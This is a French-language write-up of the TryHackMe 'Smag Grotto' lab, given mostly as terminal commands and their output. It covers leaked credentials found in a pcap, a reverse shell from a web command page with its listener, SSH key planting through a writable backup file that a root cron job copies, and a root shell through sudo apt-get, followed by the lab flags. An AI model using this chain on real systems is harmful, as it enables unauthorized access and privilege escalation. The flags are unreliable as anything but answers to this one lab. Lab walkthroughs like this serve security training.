






# Smag Grotto #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.183.126 smaggrotto.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A smaggrotto.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 10:33 CEST
Nmap scan report for smaggrotto.thm (10.10.183.126)
Host is up (0.031s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/3%OT=22%CT=1%CU=41655%PV=Y%DS=2%DC=T%G=Y%TM=6108FF60
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=FF%TI=Z%CI=I%II=I%TS=8)OPS(O
OS:1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11N
OS:W6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R
OS:=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S
OS:)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   30.98 ms 10.9.0.1
2   31.33 ms smaggrotto.thm (10.10.183.126)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.51 seconds
```

Les informations du scan nous montre qu'il a deux services : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.  



On voit un page d'intro avec aucun indice.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://smaggrotto.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -q
/mail                 (Status: 301) [Size: 315] [--> http://smaggrotto.thm/mail/]
```


On remarque qu'il y a un lien caché mail.  
Dans la page il un trace de capture de paquets.    


```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://smaggrotto.thm/aW1wb3J0YW50/dHJhY2Uy.pcap
--2021-08-03 10:45:57--  http://smaggrotto.thm/aW1wb3J0YW50/dHJhY2Uy.pcap
Résolution de smaggrotto.thm (smaggrotto.thm)… 10.10.183.126
Connexion à smaggrotto.thm (smaggrotto.thm)|10.10.183.126|:80… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 1209 (1,2K) [application/vnd.tcpdump.pcap]
Sauvegarde en : « dHJhY2Uy.pcap »

dHJhY2Uy.pcap                                               100%[=========================================================================================================================================>]   1,18K  --.-KB/s    ds 0s      

2021-08-03 10:45:57 (49,0 MB/s) — « dHJhY2Uy.pcap » sauvegardé [1209/1209]
```

On le télécharge.  



Sur Wireshark faite fichier-\>Exporter Objets->HTTP   
On trouve un fichier login.php enregistrez-le.
De plus on voit que le fichier login.php vient du lien development.smag.thm


```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.183.126 development.smag.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 

tim@kali:~/Bureau/tryhackme/write-up$ cat login.php 
username=helpdesk&password=cH4nG3M3_n0w
```
On modifie mette le même dns trouvé dans la capture de packets.   

Dans le fichier login.php on a des identifiants :  
Nom d'utilisateur : helpdesk    
Mot de passe : cH4nG3M3_n0w 





Grâce au nom d'utilisateur et au mot de passe on peut se connecter sur page qui permet de passer des commandes.   

```bash
nc -lvnp 1234
```



On injecte un reverse shell puis on écoute sur le bon port.    

**What is the user flag?**

```bash
im@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/
jake

$ cat /home/jake/user.txt
cat: /home/jake/user.txt: Permission denied

```

On obtient un shell.  
Mais on a pas les droit pour lire le fichier user.txt  

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@smag:/var/www/development.smag.thm$ 


www-data@smag:/var/www/development.smag.thm$ cat /etc/crontab 
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
```

On stabilise le shell on voit dans crontab qu'il y a un backup de la clef de jack qui est copiée dans les clef autorisés.  

```bash
<lopment.smag.thm$ ls -al /opt/.backups/jake_id_rsa.pub.backup               
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
```

On a les droits pour écrire.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh-keygen -o
Generating public/private rsa key pair.
Enter file in which to save the key (/home/tim/.ssh/id_rsa): 
/home/tim/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/tim/.ssh/id_rsa
Your public key has been saved in /home/tim/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:Agc0ccJoSzKnKDf6l1vbk+2jcCJTUuWXxw+z7xdwZ3o tim@kali
The key's randomart image is:
+---[RSA 3072]----+
|   +*.. .        |
|o = .= o   o     |
|.B .. o . o =    |
|+ +  +   . . * .o|
|.o .. o S   . +o.|
|.    o .     ...E|
| .  o.+ .o    ...|
|  . o+ *o o  .  .|
|   .... o+..  .. |
+----[SHA256]-----+

tim@kali:~/Bureau/tryhackme/write-up$ cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCza2LQOIv7wg5fIhqbP+R15WdVs/aOSKpVth7uPmpPrREki5WVyBKO0cpLrNfGMjcTHZhYG71tum+KY9Xx19+GE+8HtWpuruYVe3uCriZsRb4I7z7lAUveUa03NmQcezJgg53Ye6KSnLc5kjLl9f+htNt/GiU6/nul2nKnUvhFagtPhQBXPQNcVk1JPwEPbgbhpP/HGLUO/SuVzmSjmzR1YWgOKNwM3xX533TUhmLFloMCGQfvXRXzot8HaE2w75m9JxPil9x2XH5BNXyYHOloSY6JOc10D/9/fZ+/mZQZMVz/xfoN0No9KHVK8O/G8UOFtR5fhYDBWekFefhiW6SfAP20vc3V3VuNWu9/MT6aTcLzuBdZw03mnYfAQmnsjwdpKAG37qQt579D8nit6HPuVDFI38o7+XnyxJalRiXtiWsWvlla89OrJ3GHnkcdcd0GC9OWjNczmk5uYUit7ShuCjjdAZTMTbXQhzbeQVA5LxLt8/rur0na/MOCl6mGzF0= tim@kali
```

On génère à partir de notre machine une clef ou on connais le mot de passe.   

```bash
cd /opt/.backups/
www-data@smag:/opt/.backups$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCza2LQOIv7wg5fIhqbP+R15WdVs/aOSKpVth7uPmpPrREki5WVyBKO0cpLrNfGMjcTHZhYG71tum+KY9Xx19+GE+8HtWpuruYVe3uCriZsRb4I7z7lAUveUa03NmQcezJgg53Ye6KSnLc5kjLl9f+htNt/GiU6/nul2nKnUvhFagtPhQBXPQNcVk1JPwEPbgbhpP/HGLUO/SuVzmSjmzR1YWgOKNwM3xX533TUhmLFloMCGQfvXRXzot8HaE2w75m9JxPil9x2XH5BNXyYHOloSY6JOc10D/9/fZ+/mZQZMVz/xfoN0No9KHVK8O/G8UOFtR5fhYDBWekFefhiW6SfAP20vc3V3VuNWu9/MT6aTcLzuBdZw03mnYfAQmnsjwdpKAG37qQt579D8nit6HPuVDFI38o7+XnyxJalRiXtiWsWvlla89OrJ3GHnkcdcd0GC9OWjNczmk5uYUit7ShuCjjdAZTMTbXQhzbeQVA5LxLt8/rur0na/MOCl6mGzF0= tim@kali" > jake_id_rsa.pub.backup
<AZTMTbXQhzbeQVA5LxLt8/rur0na/MOCl6mGzF0= tim@kali" > jake_id_rsa.pub.backup 
```

On remplace la clef par la notre.   
On attend 1 à 2 minutes.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh jake@development.smag.thm
The authenticity of host 'development.smag.thm (10.10.183.126)' can't be established.
ECDSA key fingerprint is SHA256:MMv7NKmeLS/aEUSOLy0NbyGrLCEKErHJTp1cIvsxnpA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'development.smag.thm' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ cat user.txt
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

On se connecte puis on récupère le flag.  
La réponse est : iusGorV7EbmxM5AuIe2w499msaSuqU3j    

**What is the root flag?**

```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

On voit que sudo ne nécessite pas de mot de passe pout apt-get. 
Sur le site [gtfobins](https://gtfobins.github.io/gtfobins/apt-get/), il montre comment avoir un shell root.   

```bash
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```

On invoque un shell root et on lit le flag.   
La réponse est : uJr6zRgetaniyHVRqqL58uRasybBKz2T     